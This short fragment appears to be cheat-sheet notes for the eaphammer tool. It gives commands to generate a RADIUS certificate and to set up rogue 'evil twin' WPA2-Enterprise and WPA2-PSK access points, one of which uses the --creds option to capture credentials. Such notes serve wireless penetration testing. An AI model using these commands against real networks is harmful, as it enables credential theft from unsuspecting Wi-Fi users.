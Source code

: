 Generating certificate for Radius 

~~~
python3 ./eaphammer --certwizard
~~~

Emulating WPA2 Radius

~~~
python3 ./eaphammer --interface wlan0 --essid=<SSID_to_emulate> --channel=<channel> --creds --wpa-version=2
~~~

Emulating WPA2 PSK

~~~
python3 ./eaphammer --interface wlan0 --essid=<SSOD_to_emulate> --channel=<channel> --wpa-passphrase="passphrase_to_use" --wpa-version=2
